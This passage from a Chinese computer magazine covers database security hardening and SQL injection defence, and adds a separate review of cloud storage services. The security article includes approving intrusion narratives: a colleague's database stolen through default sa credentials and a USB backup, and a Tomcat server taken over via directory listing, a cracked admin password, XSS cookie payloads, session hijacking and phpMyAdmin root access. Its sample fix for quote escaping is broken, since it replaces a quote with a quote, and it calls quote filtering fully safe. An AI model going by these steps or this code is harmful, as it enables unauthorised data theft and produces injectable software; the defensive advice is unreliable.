从开始菜单中打开“服务器网络实用程序”，单击“网络配置”按钮，在窗口中选择“TCP/IP”，然后单击“属性”设置，在弹出的界面中选中“隐藏服务器”即可。
这样，服务器就不会出现在网络上，而那些已经知道服务器名称和端口号的客户仍然可以与服务器进行连接。此外，还可以在上述配置的基础上，更改默认的1433端口。

- （2）在数据库表中加入校验字段
在提交数据库操作命令之前，利用非对称加密算法(RSA)，将明文转换为密文，再利用数字文摘算法(MD5)计算出 SQL 语句的电子文摘，作为校验字段的值，然后向数据库提交。
在服务器端，利用触发器编写程序，将密文转换为明文并检查校验字段值的正确性。如果校验字段的值正确，说明未被篡改，可以执行该操作，否则，拒绝执行该操作。

- （3）使用协议加密
安全套接字层 SSL (Secure Sockets Layer, SSL) 协议是互联网上安全通信的一个标准协议，任何应用程序都可以用它来保护由 TCP/IP 网络协议传输的数据。SSL 使用以下技术来实现登录与连接的安全性：
公钥 / 私钥加密技术、密码技术和密钥交互技术。SSL 通过使用公钥和私钥的方法建立一个连接的初始化握手工作，用于实现这种功能的协议被称为“密钥交换协议”。它使用服务器端的 SSL 证书来加密客户与服务器之间发送的信息序列，以认证和服务器的安全连接。

**小技巧：** 使用此方法之前，可以通过 CA 认证中心等权威机构获取服务器数字证书，并确保证书有效。然后，从开始菜单中打开 SQL Server 的“服务器网络实用程序”，选中“强制协议加密”，这表示在所有的连接上请求使用 SSL 加密。选中后，任何试图连接上 SQL Server 服务器而又不支持 SSL 加密技术的客户端都会被服务器拒绝，只有支持 TCP/IP 的网络库才可以与该选项一起使用。同样，在客户端“常规”选项卡中也有“强制协议加密”选项，如图2所示。

- （4）将数据库加密系统做成 DBMS 的一个外层工具，根据加密要求自动完成对数据库数据的加/脱密处理
这种方法不会加重数据库服务器的负载并且可以实现网上传输的加密，这种方法还有很多优点：
① 系统对数据库的最终用户是完全透明的，管理员可以根据需要进行明文和密文的转换工作。
② 加密系统完全独立于数据库应用系统，无须改动数据库应用系统就能实现数据加密功能。
③ 加解密处理在客户端进行，不会影响数据库服务器的效率。缺点是加密功能会受到一些限制，与数据库管理系统之间的耦合性稍差。

- （5）数据库密码设置技巧
设置密码，可以从“长度、广度和深度”着手。长度意味着一个越长的密码越难被破解。广度是描述使用不同的字符类型的方法。深度是指选择一个有一定意义的密码，如选出一句我们很欣赏的名言警句如“有志者事竟成”，使用句中的第一个字母，将首字母的缩写词作为密码。

> **小技巧：**
> 针对数据库密码的设置，还要注意以下问题：
> ① 密码长度最好在八位或八位以上，组成字符最好包括大小写、数字字母或控制符，排列上不能具有一定规律。
> ② 不要将账户、手机、电话号码作为密码。由于上述密码都具有一定的规律，如手机的号码一般为13******开头，再确定用户所在区域所对应的手机排序号码，剩余部分数字组成的排列组合已经非常有限。将用户的生日作密码的也同样有章可循，如此一来，搜索解密的排列组合将大大缩小。
> ③ 不要将常用的英文单词作为密码，避免使用字典词句、专有名词。

④数据库管理员要定期修改密码。为了保证密码的有效性，密码应该经常地更改。更改密码的一条好的准则是尽可能地服务切实用户。比如说，如果是在办公室的机器，用户应该在自己的电脑上更改，而不能在同事的机器上做。如果是一个远程网站空间管理账号，就不要通过其他第三方机器上的ftp软件来更改密码。在可能的情况下，密码更改可以通过像SSL这样的安全连接来完成。

## 3. 使用DBMS安全机制防范网络攻击

许多大型的DBMS（数据库管理系统）都提供了完善的数据库安全防范技术，综合利用这些技术，可以明显提高数据库系统的安全性。

#### (1) 认证和授权

认证是验证系统中请求服务的人或应用程序身份的过程；授权是将一个通过身份认证的身份映射已经授予数据库用户的许可的过程，该过程限制用户在数据库内部允许发生的行为。通过SQL Server数据库的认证机制，可以解决“我是谁”的问题；通过授权机制，可以解决“我可以干什么”的问题。

这方面的技术主要包括用户标识和鉴别、存取控制等。其中，用户标识和鉴别是系统提供的最外层的安全保护措施，其方法是每次用户要进入系统时通过输入用户ID和密码，系统通过严格的用户认证机制对用户身份进行审查核实。另外，系统要求对每个用户定义存取权限。存取权限包括两个方面的内容：一方面是要存取的数据对象；另一方面是允许对此数据对象进行哪些类型的操作。存取控制可分为：自主存取控制、强制存取控制和基于角色的存取控制。

**小技巧**：对SQL Server数据库服务器进行权限设置时，应该为Web程序单独设立一个受限的登录，指定其只能访问特定的数据库，并为该特定数据库添加一个用户，使之与该受限的登录相联，并严格设定该用户的数据库权限。

#### (2) 备份与恢复

通过数据库备份，当系统发生故障时，管理员能迅速把数据库恢复到原来的状态，以便保持数据的完整性和一致性。一般来说，数据库备份常用的备份方法有：静态备份、动态备份和逻辑备份等；而数据库恢复则可以通过磁盘镜像、数据库备份文件和数据库在线日志等方式来完成。

#### (3) 审计

是指监视和记录用户对数据库所施加的各种操作的机制。通过审计，可以把用户对数据库的所有操作自动记录下来放入审计日志中，这样数据库系统可以利用审计跟踪的信息，重现导致数据库现有状况的一系列事件，找出非法存取数据的人、时间和内容等，以便于追查有关责任；同时审计也有助于发现系统安全方面的弱点和漏洞。

## 4. 安全的程序设计：防范数据库的SQL注入

下面，我们看这三句最简单SQL语句：

```
SQL="Select * from Users where UserID=" & Request("ID")
SQL="Select * from Users where UserID='" & Request("ID") & "'"
SQL="Select * from Users where UserName like '%" & Request("Name") & "%'"
```

区分数字型和字符型参数，只要看SQL语句参数两边有没有单引号即可，很明显，第一句没单引号，是数字型；第二第三句有单引号，是字符型。对于数字型变量，传入的参数都会直接附加到SQL语句上执行。对于字符型变量，传入的参数都是作为常量，比如用户传“1 and 1=1”（不带双引号）进去，SQL语句就是UserID='1 and 1=1'，在单引号界定范围里面的值永远都只是一个常量，要打破这个范围，唯一的字符就是界定的字符：单引号。所以，字符型变量只要过滤了'号就完全安全了，至于如何过滤，最好是把一个单引号替换成两个单引号，因为SQL语句里面规定，'常量'这样表示的常量里面，常量里面如果要有单引号，可以用两个单引号代替。这样，既可以保持用户输入的原貌，又可以保证程序的安全。

通常有以下两种方法：在Web页面表单中注入攻击代码；在浏览器地址栏的URL中插入攻击代码。其后果轻则导致敏感信息的泄漏，重则是整个服务器受他人控制。由于SQL注入攻击针对的是应用开发过程中的编程不严密，因而对于绝大多数防火墙来说，这种攻击是“合法”的，问题的解决只有依赖于完善编程。

#### (1) 加强程序的安全性测试，尽量屏蔽出错信息

- ①在测试过程中，重点检查输入信息的类型、长度和内容，尤其是对单引号、双引号、“——”、分号等进行过滤，对字符型数据及用户提交参数的长度也要过滤。
- ②通过制作特定的出错页面，实现对错误信息的屏蔽，这种方法实质上是在攻击发生后对服务器端处理的一种补救，目的是阻止攻击者知道攻击的结果，从而避免攻击者作更进一步的攻击。
- ③要检查提取数据的查询所返回的记录数量。如果程序只要求返回一个记录，但实际返回的记录却超过一行，那就当作错误处理，这样也可以避免再次遭受攻击。例如，在ASP.net中，可以利用String对象的Replace方法实现字符的转化，将输入框中的单引号转化为空格的方法如下：

```
String strInput=txtBoxSearch.Text().Replace("'", "'");
String string="select * from news where keyword='"+strInput+"'";
```

#### (2) 检查数据库连接的安全隐患

以JSP为例，当使用JDBC与各种数据库进行连接访问时，通常可以通过以下代码进行连接：

```
Connection conn=DriverManager.getConnection(url,username,password);
```

在上述代码中，包含了服务器的IP地址，用户名和密码，如果源代码泄露将会对数据库造成严重威胁。实际使用中，可通过JavaBean将功能、处理、值、数据库查询、修改、更新以及其他任何可以用Java代码创造的对象进行打包，再通过内部的JSP页面、Servlet、其他JavaBean、applet程序或者应用来使用这些对象。

### (3) 利用XML Web Service或用户存储过程访问和操作数据库

## 三、数据库安全应用典型案例

网络安全实践中，往往面临的环境是多种应用和系统的结合，网络的开放性、互联性等特征也使 WEB 系统尤其是数据库更易受黑客、恶意软件和其它不轨行为的攻击。

### 1. 案例一：社会工程学在数据库安全中的利用

熟练的社会工程学使用者都擅长进行信息收集，很多表面上看起来一点用都没有的信息都会被这些人利用起来进行渗透。比如说一个电话号码，一个人的名字。后者工作 ID 的号码，都可能被利用起来。阿甘最近就遇到了这样的问题，他有着《阿甘正传》中主人公一样的执着精神。通过下面的案例，我们来分析阿甘是如何盗取数据库的资料的。

坐在阿甘旁边的是来自电信公司的大黑，虽然两人年龄差不了多少，可两个人总感觉有那么一层隔阂。这不，大黑“语重心长”地说，在网络安全中，各种硬件设施、防火墙都是必不可少的，除此之外，系统的安全设置及代码的数据安全性也是其中不可忽视的一部分。阿甘茫然的看着他，应了声：“喔”。其实，他在心里纳闷着，上次叫你给我研究的那套代码都不肯公布出来，还好意思说呢。

前几天，阿甘请大黑吃了顿饭，为的就是那套仰慕已久的“XX代码系统”，数据库就是用 SQL Server2000 写的。这不，代码被阿甘神不知鬼不觉的拿到了，可数据库里面的数据却一直不能拿到手，怎么办？

等了几天，机会终于来了，这天，还没下班，大黑的女朋友一个电话就把他“召唤”走了，由于出来乍到，公司的那个凸头经理又对阿甘说：“阿甘啊，我们的系统还有几个地方有点问题，你今天留下来把它完成吧！”阿甘望了望他泛光的头顶，毫不犹豫的说：“好！”头儿转过身，阿甘就开始叹气了。虽然饿着肚子，但问题很快就解决了。不过，阿甘总忘不了那件事：“把大黑的数据库搞到手！”

说干就干，阿甘想了很多方法来破解大黑的操作系统，这应该是最原始的办法之一了。可大黑很勤于打补丁，一时半刻对他的系统也没有办法。在失望中，阿甘打开了自己机器上的 SQL Server 2000“企业管理器”。突然，阿甘想到，自己上次看的一个 Web.config 文件中，不是有数据库密码吗？想到这里，阿甘马上打开了这个 ASP.net 配置文件。类似的文件在很多免费的 ASP 系统和其他场合都可以得到，且看阿甘拿到的这个文件内容：

```
<appSettings>
<add key="ConnectionString" value="server=(local); database=OA; user id=sa; password=sa;"/>
<add key="DocDir" value="../Doc/"/>
......
</appSettings>
```

还有一个问题，大黑的数据库没有启动？怎么办？还是要管理员密码啊！通常情况下，SQL server 是默认启动的，也就是说，即使没有登陆，数据库也可能启动。想到这里，阿甘抱着试试看的心理打开了大黑的服务器，然后，注册了一个服务器。连接后，激动人心的时刻终于来到了，现在，大黑的数据完全在阿甘的掌握之下了。连接后的数据如图3所示。



这个系统是用 ASP.net 完成的，因此，数据库中涉及到很多的存储过程、索引等数据，简单的使用 SQL 方法还不能完全得到数据。而且，由于网络连接的原因，数据导出的时候速度非常慢，而且导出的文件也残缺不全，如图4所示。用“导出数据”、“生成SQL脚本”等方法都试过了，还是不行。最关键的原因，是由于数据库比较大，而且是通过网络传播。试了很多方法，阿甘都是垂头丧气的败北而归，看着煮熟的鸭子飞了！



这么折腾了半个多小时，依然是毫无结果，导出的数据要么只是某个表，要么不完整而导致系统不能正常运行。就在绝望之时，阿甘准备撤退了，看来，还是请大黑撮一顿吧，也许他会大发慈悲，把数据库代码施舍出来。就在收拾背包的一刹那，阿甘看到了自己包包里面的移动硬盘，如果把移动硬盘插到大黑的电脑上，会是什么结果，那不就是相当于在大黑的电脑上面做本地的“备份数据库”操作吗！阿甘跳了起来，马上，打开了“所有任务”下的“备份数据库”，然后选择备份目的地为“H:”，也就是阿甘的移动硬盘。看来，现在想不拿到数据库都不行了。如图5所示。

完成上述操作后，阿甘就把大黑的数据文件完全备份到自己的移动硬盘上面了。如图6所示。



拔下移动硬盘，阿甘哼着口哨把这些数据文件直接还原到自己的SQL Server服务器上面，整个系统就可以完好无损的演示了。试想，大黑如果不去查询自己的系统日志，他可能永远也不会知道自己辛苦保存的源代码曾被人盗取过；如果他不去禁止安装默认的移动设备，阿甘则永远没有机会盗取到他所期待的最新的数据库代码。



### 2. 案例二：Tomcat服务器下的数据入侵

现在，适合于各种平台而且免费的Tomcat逐渐成为web服务器的一种选择。eBay.com与Dell计算机等知名网站都采用或者曾经采用这个服务器软件。的确，对于Tomcat这样公布源代码的操作系统，若有更多的人使用并研究其源代码，则可以找到并修补愈多的安全漏洞。但是，对从来不修补漏洞的人来说，我就可以利用这些漏洞，做我喜欢做的事情了。

前一段时间，应朋友之邀，我对他们托管的三台主机进行了测试，其中两台为Linux，一台为Windows系统，在路由器后面还有一台Cisco PIX 525对三台主机进行保护，只允许外部用户连接不同主机的部分端口，例如80，25,110等等。根据检测，Cisco PIX防火墙过滤规则设置比较严密，基本上没有多余端口允许外部用户访问。细致分析后，我发现，目标网络的主机通过地址转换来提供对外访问，内部使用192.168.*.*地址段。先不考虑那么多，找个扫描软件来看看主机的安全情况。我找来了X-Scan，在外部对这几台主机进行了端口扫描之后，生成了一份关于端口的报表，发现其中有一个Tomcat服务器，解释的自然就是JSP文件了。典型部分摘录如图7所示。



看来，只能通过WEB服务进行间接攻击。首先检查TCP/80端口的服务，我发现，新闻搜索的功能是由端口8080提供的，输入 http:// 202.103.*.168:8080/ 之后，得到了一个系统管理登录页面，简单地测试了一下，输入test/test作为用户名/口令，似乎认证成功，但实际上并不能进入下一个页面。彷徨之间，我进行了JSP大小写的测试，因为JSP对大小写是敏感的，Tomcat只会将小写的JSP后缀的文件当作是正常的JSP文件来执行，如果大写了就会引起Tomcat将index.jsp当作是一个可以下载的文件让客户下载，若干测试后，我发现这个方法并不奏效，可能管理员已经在服务器软件的网站上下载了最新的补丁。

在JSP平台下仔细研究后，我发现大部分JSP应用程序在当前目录下都会有一个WEB-INF目录，这个目录通常存放的是JavaBeans编译后的class文件，如果不给这个目录设置正常的权限，所有的class就会曝光。而采用JAD软件对下载的class文件反编译后，原始的Java文件甚至变量名都不会改变。如果网页制作者开始把数据库的用户名密码都写在了Java代码中，反编译后，说不定还能看到数据库的重要信息。那么，怎么得到这些文件呢？

Tomcat版本的缺省/admin目录是很容易访问的！不知道这个粗心大意的数据库管理员是否做了相关处理。输入：http://202.103.*.168/admin/，管理员目录赫然在列。之后，我看到了“Tomcat Web Server Administration Tool”的页面，默认情况下，他们的“User Name”应该是admin，“Password”应该是空，输入用户和密码后，并点击“Login”按钮，不能进入，陆续使用了几个比较常见的密码，也无济于事，如图8所示。



默认情况下，Tomcat打开了目录浏览功能，而一般的管理员又很容易忽视这个问题。

在对多个resin或Tomcat服务器站点的测试中，我都碰到过这个问题，实在让人不可理喻。一般可以这么解释：当要求的资源直接映射到服务器上的一个目录时，由于在目录中缺少缺省的index.jsp等文件，Tomcat将不返回找不到资源的404错误，而是返回HTML格式的目录列表。琢磨了这点后，我打开刚才用X-Scan扫描后生成的报表文件，找到“安全漏洞及解决方案”栏目，看到了几个可能会有CGI漏洞的目录。在地址栏输入其中之一，感觉是个比较重要的目录，结果如图9所示。



一些很典型的JSP文件、JS文件都列出来了！大喜之下，随便选择一个文件，点击右键，然后，选择“用FlashGet下载全部链接”选项，于是，这个目录下的所有文件都被我下载到了本地。而其中尤其具有价值的是一个名字为dbconn.js的文件，看来程序设计者是为了方便省事，把一些数据库连接的密码和连接地址都写在了里面（这是很多开发者可能会忽略的问题)。不过，我现在最关心的还是Tomcat的管理员密码！可能是管理员对口令进行统一的缘故，简单破解后，发现Tomcat系统中的admin用户使用了非常简单的口令：web123456。尽管外部用户无法直接访问telnet服务，不过，在我看来，这些口令还是应当被重设为更为强壮的字符串。先不管别人怎么做了，利用这个漏洞，有了这个密码，我就好好研究研究Tomcat的管理界面了！

重新登陆Tomcat的管理界面，点击“Context（Admin）”这个链接，列出了WEB目录下的一些文件和目录的名称，我现在就可以对Tomcat的Context进行管理，例如查看、增加、删除Context。这个Context有点类似虚拟目录，于是


我可以增加一个context，例如“/images”，这是为了避免管理员看出破绽，将它的文档根目录设置为“/”，这样当我访问http://202.103.*.168/admin/时看到的就是系统根目录的列表了！如图10所示。

看来是管理员太疏忽了。既然是JSP文件，我就要尝试一下XSS注入、HTML注入、SQL注入以及命令注入的攻击了。许多网站都在防范XSS攻击上存在缺陷，当然，实际的攻击可能并不像前面的示例那么简单，但是，只要在Web应用程序中有将未过滤的输入回送给用户的缺陷，就可以设计出XSS攻击的方式。含有容易受到XSS攻击的Web应用程序可以用各种程序语言编写（包括Java），并在任何操作系统上执行。这是一种一般且普遍的网页浏览器脚本问题，而此服务器端的问题主要来自于并未确认及过滤恶意的用户输入。能否在这方面做点文章呢？

回到Tomcat的管理界，无意中，我发现了一个上传文件的组件，而且，这个站点下有个论坛。真乃天助我也！写一个JSP文件弄上去看看，也正好验证一下JSP用户过滤方面的技术。于是，我编写了一个JSP网页，并将其当作一般的Web应用程序，它会接受用户的输入并显示少量的调试信息。通过上传的组件，我将自己精心准备的input.jsp文件上传到对方的WEB目录里。将数据填入窗体，来测试一下网页的漏洞，例子如下：

- (1) 将 `<script language="javascript">alert(document.cookie)</script>` 填入搜索字段，以便用XSS来显示进程的cookie。
- (2) 将 `<iframe src=http://jakarta.apache.org></iframe>` 填入搜索字段进行测试。

通过这些方法，我得到了一些论坛的用户信息。当然，这些都是针对JSP做的一些测试，以验证Web应用程序中的所有输入字段。我的思路是这样的，如果能从第一个浏览器会话中取出URL，包括jsessionid，然后粘贴到其他浏览器中进行浏览，就能够伪装成其他用户了！几番轰炸，制作出了一份精确的字符清单，以测试应用程序需要当成用户输入而接受的所有字符。

用户输入而接受的所有字符。如果应用程序会接受许多特殊字符，估计会开启一些漏洞，这样我就可以获得更大的访问权限。有了用户信息，却没有密码，怎么办？在登陆时，我发现了一个8888端口，这会是个什么服务呢？

疲惫中，我将注意力转移到测试时发现的8888端口，难道是个聊天室？看来Linux下的平台确实有很多让人称奇的地方，打开地址后，我发现这个端口运行的是Apache+php，也就是说，这台主机还可以编译php！不过，从经验分析来看，管理员在JSP主机上同时安装php的主要目的可能是为了管理MySQL数据库，因此，这个端口很可能有phpMyadmin这个优秀的MySQL数据库管理软件。再联想到前面发现的漏洞，这个端口上会不会有个数据库管理目录呢？果然不出我所料，在输入这个目录之后我惊奇地发现，我进入了一个phpMyadmin的管理界面，可以对MySQL数据库进行任意操作。它支持从本地操作系统读入或者写入数据。更不可理解的是，管理员居然用root账户写在了数据库连接里面，想不控制这个数据库都不行了，如图11所示。


打开其中的一个数据库，在“SQL”中输入“SELECT * FROM `adminuser`”，adminuser表中的数据全部显示出来了。和我前面用JSP探测的用户类型大致一致。至于他们的表和数据的删改权限，现在则完全在我的掌握之中了，如图12所示。



可见，在整个系统管理中，数据库的安全是一个非常重要的环节。“知己知彼，百战百胜”。

通过上面多角度的分析，无论是数据库管理员、黑客甚至编程人员，我们都有了一个比较直观的认识。因此，网络数据库的安全防范是多层次、大范围的，随着计算机技术的发展和数据库技术应用范围的扩大，数据库安全必须走立体式发展道路。除了和入侵检测系统、防火墙等其他安全产品应配套研究使用外，还要考虑多方面的安全因素。通过多方面建立安全防护机制，就能更全面考虑可能存在的安全隐患，降低数据库被暴露和攻击的可能性。

## 精彩“盘”点：网络U盘使用教程

文/彭文波

随着人们对G级邮箱的关注日益火爆，大容量邮箱曾一度替代网络硬盘。不过，网络硬盘的共享性和操作便利性等等仍然后劲十足。近年来，通过网络进行文件的存储也越来越为许多网友所青睐。许多大型站点都推出了多达百兆乃至G级别的网络存储空间，即“网络U盘”，也有人称之为“网络硬盘”。同时，国内免费邮箱的空间也越来越大，这也给网络U盘的发展提供了新的空间。那么，面对众多服务商提供的网络硬盘以及与之相关的软件，我们究竟该如何选择呢？

看一款网络U盘是否好用，可以从以下指标进行对比：

-   1. 速度
“时间就是金钱”，使用网络U盘的目的就是为了方便快捷，因此传送速度需要首先考虑。
2. 容量
对于普通用户来说，肯定是空间越大越好。
3. 操作方便性
对于大多数用户来说，通过Web操作更加方便，只要电脑能上网，甚至在网吧等地方也能方便地管理文件。
4. 共享和安全设置
通过文件夹共享和文件提取码等存取文件的方式，可以更加快速地对文件进行操作。

综合上述考虑，在本专题中，通过全面的对比分析，尤其是通过网络U盘与软件的巧妙结合，挑选了多种网络U盘，并提供了多种使用网络U盘的方式，使用户轻松获得心仪的一款，让网络文件存取自如。

## 一、谁与争锋: 专业网站提供的网络U盘

下面，首先对专业网站提供的网络U盘进行分析。这里的专业网站是针对门户网站而言，主要服务集中在网络U盘上。

### 1. VDISK网盘

推荐指数：★★★★★

网站地址：http://www.vdisk.cn

VDISK操作十分简单，是一款比较好用的网络硬盘。其界面采用了活力橙黄色，容量比较大而且速度也比较理想，首次注册成功的账户均为免费用户。

#### (1) 注册和界面

登录网站即可开始注册，只需填写账号、密码和邮件等少量信息即可成功注册。注册登录后，界面如图1所示。



除了Web管理方式，VDISK还可以通过客户端软件对网络硬盘进行管理。从首页上下载一个客户端软件，双击后即可登录。客户端软件的操作界面和QQ网络硬盘非常相似，通过“我的数据”、“我的好友”、“快讯”等可以方便地在各个功能模块间进行切换。在“我的数据”选项卡中，点击相应的图标即可进行对文件的操作，如图2所示。



#### (2) 速度和容量

由于可以将本地硬盘中的文件直接拖拽到网络硬盘，因此传输得较快。文件最大容量可达1GB，最多允许文件数量为100个，单个文件最大容量可达到1GB。对于普通用户来说，VDISK的文件存放时间为30天。

#### (3) 上传下载管理的方便性

本地化操作是VDISK最大的特色，我们可以像对本地硬盘一样，对其中的文件进行各种上传和下载操作。选中文件后，点击相应的图标即可，使用非常方便。

#### (4) 共享和安全访问设置

提供了方便的域名访问方式，通过http://账号名.vdisk.cn即可进行文件访问，并能设置具有针对性的多用户共享。在Web管理界面，单击“存储秀”选项卡，在工具栏下方会出现“设置”图标，单击此图标即可设置共享。双击打开时会要求输入用户名和密码，登录成功之后就可以像普通操作一样对文件或者是文件夹进行拖放、复制粘贴等，对文件数量的限制是 100 个。同时，还可以通过获取引用地址，直接对文件进行操作。提取码和引用链接等如图 3 所示。



#### （5）特色功能

VDISK 基于互联网环境，通过软件可以实现本地电脑上的虚拟磁盘硬件，能像本地磁盘一样进行文件的建立、复制、删除和修改，完全支持系统的鼠标拖放、目录树结构操作、文件搜索等一系列操作。

> 综合点评：VDISK 网盘的小文件上传下载十分方便。缺点是文件共享设置不太方便，客户端的稳定性有待提高，有时候会出现文件上传不成功或无法删除的情况。其不活动断开连接的时间过短，偶尔会出现数分钟之内没有操作，再使用时则要重新登录的现象。比较适合普通用户使用。

| 名称 | 注册和界面 | 速度容量 | 管理方便性 | 共享和安全 | 特色功能 |
| :--- | :---: | :---: | :---: | :---: | :---: |
| VDISK 网盘 | ★★★★☆ | ★★★★☆ | ★★★★☆ | ★★★★☆ | ★★★★☆ |

### 2. 永硕 E 盘

推荐指数：★★★★★
网站地址：http://www.ys168.com
这是由上海永树网络科技有限公司推出的一款网络 U 盘。尽管免费提供的空间比较小，但在速度和功能管理上很出色，操作起来十分方便。

#### （1）注册和界面

E 盘的注册过程十分简单，注册速度也很快，注册成功后能够以二级域名的形式直接进入空间，地址为：http://用户名.ys168.com，登录网络硬盘后即可进入到用户后台。在用户后台中，提供了基本的资料设定功能，特别是空间设定功能非常方便而实用，如图 4 所示。



#### （2）速度和容量

在两个文件的上传与下载的测试中，在白天和晚上分别测试后能够发现，上传、下载速度都较稳定快速。网站提供了 30MB 免费存储空间，单个文件容量最大只能在 3MB 以下。

#### （3）上传下载管理的方便性

对于网络 U 盘来说，针对上传下载的管理是其中最重要的部分。如果这方面的功能比较薄弱，无疑会使 U 盘的功能大打折扣。点击界面上的空间地址即可进入空间管理界面。空间管理界面设计得非常简单，操作起来十分方便。通过左边的“增加目录”、“上传文件”面板可以很方便地进行操作。可以成批上传文件及链接网址到分类中，没有文件类型限制。另外，免费用户至少要在两个月内登录一次空间，否则空间会被关闭。

#### （4）共享和安全访问设置

通过网络地址，可以方便地与其他人共享。同时，为了加强文件管理的安全性，网络硬盘支持目录加密，并能设置多种访客权限。在此网络硬盘空间下还提供了一个“管理区”后台管理程序，可对个人资料以及网络硬盘空间作维护设置，如图 5 所示。



#### （5）特色功能

利用此网络 U 盘可以实现保存用户的文件、收藏网址、记事或留言等目的。由于拥有一个二级域名，这使它相当于一个小型网站，能够提供文件、图片以及音乐的共享，还能实现网友间的交流。此外，它还能够对存储的音乐文件进行在线播放。

> 综合点评：在优点方面，永硕 E 盘操作互动性强，基于浏览器的操作反应速度快速、传输速度快，能够提供个性设置程序。缺点方面是支持的空间过小，文件保存的时间比较短。适合于临时保存文件且文件不太大的场合。

| 名称 | 注册和界面 | 速度容量 | 管理方便性 | 共享和安全 | 特色功能 |
| :--- | :---: | :---: | :---: | :---: | :---: |
| 永硕 E 盘 | ★★★★☆ | ★★★★☆ | ★★★★☆ | ★★★★☆ | ★★★★☆ |

### 3. AMD 网络硬盘

推荐指数：★★★★★
网站地址：http://amd.streamload.com

#### （1）注册和界面

进入该网络硬盘的网站（http://amd.streamload.com/），点击“Sign UP Now（马上注册）”链接即可进入申请页面，在申请页面的中间位置，我们可以看到收费服务和免费服务已经列出。其中 25GB 空间的为“FREE”免费，每个月可以下载 1GB 的流量。选择免费的 25GB 空间，然后在下面的输入框输入用户名、密码等，最后点击“CREATE ACCOUNT（创建账户）”即可完成申请。注意密码要设置稍微复杂且不能和用户名相同。注册完成后，点击“Go to My Account（到我的账户）”按钮即可登录网络硬盘。登录之前，还需要到注册邮箱中进行验证。从开通过程来看，操作非常简单，只需要简单验证即可，如图 6 所示。

# 超级应用方案特辑·网络



（2）速度和容量
在晚上23:30测试，上传下载的速度比较流畅，使用中国网通512Kbps的宽带，下载速度大约在52KB/s左右。从文件的上传下载操作来看，操作都非常简单，下载速度也比较满意。

（3）上传下载管理的方便性
登录网络硬盘后可以看到，页面对文件进行了详细的分类，包括“VIDEO SHARE”（视频）、“PHOTO SHARE”（照片）、“TV&MOVIE LOCKER”（电视、电影）、“MUSIC LOCKER”（音乐）、“MAIL”（邮件）等，进入其中任何一个分类，点击“Create folder”即可创建一个文件夹，还可以创建下一级目录。设置好文件夹目录后，进入相应的文件夹，然后点击“Upload（上传）”选项即可进行文件上传。在文件上传页面，只要点击“Browser（浏览）”按钮打开本地电脑的文件，接下来点击按钮即可。下载文件时，勾选需要下载的文件，然后点击“download（下载）”按钮。值得一提的是，可以采用多种方式下载文件，可以使用IE直接下载，也可以使用迅雷、网际快车等下载工具下载。

（4）共享和安全访问设置
该网络硬盘除了提供基本的文件上传下载功能外，还可以与好友一起分享文件。具体操作是：在“FILE MANAGER（文件管理）”页面中，选择好要共享的文件，然后点击“MOVE（移动）”按钮，这时会弹出一个窗口，只要将文件转移到“Hosted”中，就会自动生存一个下载地址，将这个地址发送给好友就可以让他轻松下载文件了。甚至还可以通过“Send（发送）”按钮将地址直接发送给其他朋友。至于设置密码和按照用户进行共享的功能，暂时还不提供。

（5）特色功能
AMD网络硬盘能够直接预览视频、图片、音乐文件，分类十分仔细。除了前面介绍的文件上传方法外，AMD LIVE网络硬盘还提供了客户端软件来批量上传文件。在文件上传页面中，点击“MULTI-FILE UPLOAD”（多个文件上传），在打开的页面中点击“Download AMD LIVE! Media Vault software”即可下载客户端软件。

小技巧：在文件上传页面，后面有一个“Add Another File（添加其他文件）”选项，点击该按钮，可以同时上传多个文件，这就是AMD LIVE网络硬盘的批量文件上传功能。

综合点评：AMD网络硬盘功能丰富而且更具个性化，有免费的25GB容量和比较快的传输速度，非常有诱惑力。缺点在于没有中文化的界面，而且在共享方面的功能还不够细致。如果能稍加改善，肯定可以赢得更多的用户。

| 名称 | 注册和界面 | 速度容量 | 管理方便性 | 共享和安全 | 特色功能 |
| :--- | :---: | :---: | :---: | :---: | :---: |
| AMD 网络硬盘 | ★★★☆ | ★★★ | ★★★ | ★★★ | ★★★☆ |

### 4. Mofile硬盘

推荐指数：★★★☆☆
网址：http://www.mofile.com/cn/index_storage.jsp
Mofile是依托中国电信的强大用户群而推出的一种网络U盘，适合于存放较大型文件与他人共享。整个空间分为保管箱和接力站两个部分，可以自行设置共享与否、删除与否等。

（1）注册和界面
进入网站即可进行注册，注册完毕可获得一个类似博客网的个人页面。Mofile的管理界面比较简单，设计合理，和我们熟悉的电子邮箱管理界面类似，操作起来比较方便。注册过程中，可以根据中国电信/中国网通的宽带接入，选择对应的节点，这样有助于文件上传速度的提高。不过，Mofile的登录比较繁琐，输入用户名和密码后不是直接进入管理界面，而是还需要登录邮箱后进入。需要注意的是，注册登记的邮箱必须真实有效，错误的邮箱会导致无法进行确认而造成注册失败。

（2）速度和容量
网站提供了“接力站”概念，可以让用户存储1GB容量的空间，不过只能保存3天。注册后即可获得64MB的免费空间，可以长期保存文件，但是存放在保管箱里的文件没有提取码，无法用匿名方式与他人共享文档。

（3）上传下载管理的方便性
Mofile提供一星期7天、每天24小时的即时服务，文件随时可以下载。登录管理界面后在“我的文档”下即可进行文件的上传与下载操作。这款网络U盘提供了三种不同的上传方式，以分别应对不同的文件大小，此方式在一定程序上保证了传输的速率。点击“上传文件”进入上传页面，可以看到“普通上传”、“ActiveX断点续传”和“Java断点续传”三种上传方式。如果是免费用户，上传的文件名不能使用中文及其他非西文字符，且有长度限制。上传成功即可在保管箱或者接力站中看到文件。总的说来，其传输速率比较理想。目前只要小于50MB，就不再受到提取次数的限制，而且16MB以下的文件在下载时拥有最高的下载优先权，如图7所示。



#### (4) 共享和安全访问设置

采用了“共享提取码”方式，和电话充值卡的原理有点类似，看来 Mofile 硬盘把中国电信的电话卡运营精华都学会了。获得文件的提取码，即可进行下载。在共享和安全管理上，有三种方式：登录空间下载、登录网站下载及匿名提取。

-   ① 登录空间下载
输入用户名、密码进入系统至“我的文档”处，点击“提取文件”，输入所获得的提取码进入下载页面，点击文件名旁边绿色的按钮进行下载，免费用户只能开单线程。
② 登录网站下载
非注册用户直接在首页输入提取码进行下载。
③ 匿名提取
匿名提取则是获得一个提取地址，形式如下：http://pickup.mofile.com/1481472479918666。最后的那串数字即文件的提取码，根据这个原理，理论上所获得提取码的文件都可以匿名提取，无需再进入网站。但是匿名提取的成功率比较低，如图 8 所示。



#### (5) 特色功能

提供了多种上传方式和方便的搜索功能，能够通过站内消息相互交流。在此基础上，还提供了积分服务，能够与站内“我的 TV”等活动互动。软件还提供了类似 http://my.mofile.com/test 的域名访问服务，只要在文件管理页面将某个目录设置成全员共享或者好友共享，在这个目录下面的所有子目录和文件就都具有相应的共享属性了。

